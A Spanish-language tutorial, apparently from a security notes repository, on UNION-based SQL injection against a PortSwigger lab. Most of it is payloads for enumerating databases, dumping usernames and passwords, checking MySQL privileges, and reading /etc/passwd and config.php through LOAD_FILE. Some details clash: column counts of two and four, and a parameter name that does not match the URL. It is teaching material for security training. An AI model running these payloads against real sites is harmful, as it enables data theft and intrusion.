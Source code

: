 # Guía práctica: SQL Injection para enumeración y lectura de archivos

##  Introducción

En este documento examinaremos de forma práctica y didáctica las vulnerabilidades en bases de datos SQL —conocidas como **inyecciones SQL (SQLi)**—. Las inyecciones SQL consisten en la inserción de consultas o comandos maliciosos en puntos de entrada de una aplicación web, aprovechando validaciones insuficientes para alterar la lógica de ejecución en sistemas de gestión de bases de datos como [Mariadb](../SQL/Mariadb) o [SQLite3](../SQL/SQLite3/). Cuando estas técnicas se aplican en entornos de producción web, pueden permitir desde la exfiltración de información sensible hasta la modificación no autorizada del comportamiento de la aplicación, afectando la confidencialidad, integridad y disponibilidad de los datos. Para ampliar el contexto teórico y práctico, consulta la sección general sobre [Bases de datos](../../Bases%20de%20datos/).

Objetivos de este capítulo:

- Entender qué es una inyección SQL y cómo se explota.

- Identificar vectores típicos y entradas vulnerables en aplicaciones web.


---

## Laboratorio Portswigger

Para ilustrar con ejemplos realistas vamos a seguir el laboratorio gratuito de [Portswigger](https://portswigger.net/web-security/all-labs)

Todas las pruebas se realizaron en la URL:

```url
https://web-security-academy.net/filter?category=Gifts)
```

---

## 1. Confirmación de la vulnerabilidad

**Acción:**

Comprobamos que el parámetro `port_code` es vulnerable inyectando un UNION SELECT.

```sql
' UNION SELECT 1,2-- -
```

**Explicación:**

Si la inyección tiene éxito, la página mostrará los valores `1` y `2`  en la tabla. Esto confirma que:

- La aplicación concatena directamente el valor en una consulta SQL.
    
- El número de columnas es 2.
    
- Podemos continuar con otras inyecciones más complejas.
    

---

### Obtener versión de MySQL

```sql
' UNION SELECT 1, @@version, 3, 4-- -
```

### Listar todas las bases de datos

```sql
' UNION SELECT 1, schema_name, 3, 4 FROM information_schema.schemata-- -
```
Al ejecutar esta query, en el laboratorio de ejemplo de Portswigger vemos algo así:

**Query realizada**

![Captura](./Imágenes/web_1.png)

**Bases de datos existentes**

![Captura](./Imágenes/web_2.png)

### Listar tablas de una base de datos

```sql
' UNION SELECT 1, table_name, 3, 4 FROM information_schema.tables WHERE table_schema='nombre_base_datos'-- -
```

**Query realizada**

![Captura](./Imágenes/web_3.png)

**Tablas existentes en la base de datos 'academy_labs'**

![Captura](./Imágenes/web_4.png)

### Listar columnas de una tabla

```sql
' UNION SELECT 1, column_name, 3, 4 FROM information_schema.columns WHERE table_name='nombre_tabla'-- -
```

### Extraer usuarios de una tabla `users`

```sql
' UNION SELECT 1, username, password, 4 FROM users-- -
```

---

## Resumen de payloads usados

```sql
1. ' UNION SELECT 1,2,3,4-- -
2. ' UNION SELECT 1, @@version, 3, 4-- -
3. ' UNION SELECT 1, schema_name, 3, 4 FROM information_schema.schemata-- -
4. ' UNION SELECT 1, table_name, 3, 4 FROM information_schema.tables WHERE table_schema='nombre_base_datos'-- -
5. ' UNION SELECT 1, column_name, 3, 4 FROM information_schema.columns WHERE table_name='nombre_tabla'-- -
6. ' UNION SELECT 1, username, password, 4 FROM users-- -
```


---

## Otras queries útiles para SQLi (bonus)

## 1. Confirmación de la vulnerabilidad

**Acción:**

Comprobamos que el parámetro `port_code` es vulnerable inyectando un UNION SELECT.

```sql
' UNION SELECT 1,2-- -
```

## 2. Comprobar privilegios del usuario `root` en MySQL

### 2.1. Comprobar si tiene el privilegio `SUPER`

```sql
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

**Explicación:**

- `super_priv` = 'Y' indica que el usuario puede realizar acciones avanzadas en MySQL.
    
- Esto puede incluir cargar archivos o modificar configuraciones.
    

---

### 2.2. Enumerar todos los privilegios de `root@localhost`

```sql
' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

**Explicación:**

Esta consulta muestra todos los privilegios otorgados explícitamente a `root@localhost`, por ejemplo:

```
SELECT, INSERT, UPDATE, FILE, CREATE
```

Si el usuario tiene `FILE`, puedes leer archivos con `LOAD_FILE()`.

---

## 3. Leer archivos del sistema con `LOAD_FILE()`

### 3.1. Leer `/etc/passwd`

```sql
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

**Explicación:**

Nos permite confirmar acceso al sistema de archivos. Muestra usuarios del sistema Linux.

---

### 3.2. Leer el archivo fuente `search.php`

```sql
' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

**Explicación:**

Este archivo es la propia aplicación vulnerable. Puede revelar:

- Cómo se construye la query SQL.
    
- Si hay includes/requires a otros archivos.
    

---

### 3.3. Leer `config.php` para obtener credenciales

```sql
' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

**Explicación:**

Este archivo suele contener las **credenciales de conexión a MySQL**, como:

```php
$db_user = "root";
$db_pass = "toor123";
```

Esto te permite conectarte directamente a la base de datos desde consola o herramientas como `sqlmap`.

## Resumen de payloads usados

```sql
1. ' UNION SELECT 1,2,3,4-- -
2. ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
3. ' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
4. ' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
5. ' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
6. ' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```


---

## Conclusión

Este tipo de explotación SQLi permite:

- Confirmar la vulnerabilidad.
    
- Enumerar privilegios y configuraciones internas.
    
- Robar archivos del sistema.
    
- Escalar a control completo de la base de datos.
    

Una vez que obtienes credenciales, puedes avanzar hacia una **conexión directa**, pivotar o buscar vulnerabilidades adicionales.

---
